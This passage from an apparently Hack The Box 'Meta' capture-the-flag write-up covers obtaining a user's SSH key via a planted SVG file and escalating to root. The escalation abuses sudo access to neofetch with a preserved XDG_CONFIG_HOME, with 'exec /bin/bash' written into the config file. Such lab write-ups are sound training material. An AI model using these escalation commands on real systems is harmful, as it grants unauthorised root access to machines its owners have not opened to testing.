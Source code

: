 

save as "test.svg" inside `/var/www/dev01.artcorp.htb/convert_images/` and wait for few minute - `watch -n 1 ls -la /dev/shm`

![](screenshots/user-1000-id_rsa.png)

And login "thomas" private ssh key as user "thomas" 

## sudo `neofetch` with XDG_CONFIG_HOME

User "thomas" can run `/usr/bin/neofetch` as root with NOPASSWD
```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

And there is gtfobin for `neofetch` - https://gtfobins.github.io/gtfobins/neofetch/
```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

But it is not working.

We already found config file from find command `/home/thomas/.config/neofetch/config.conf`
```bash
echo 'exec /bin/sh' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

But still not working.

There is a keep env variable `env_keep+=XDG_CONFIG_HOME`

And we can see from one of neofetch issue on github

* https://github.com/dylanaraps/neofetch/issues/1088
* https://github.com/dylanaraps/neofetch/commit/1278844d87fc9d133258b9ba332fbed3a97c0279

That, Config file is loading form "XDG_CONFIG_HOME" env variable.

So setting `XDG_CONFIG_HOME` allow `neofetch` to access user defined config file from user's `.config` directory.
```bash
export XDG_CONFIG_HOME="$HOME/.config"
echo 'exec /bin/bash' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

![](screenshots/rooted.png)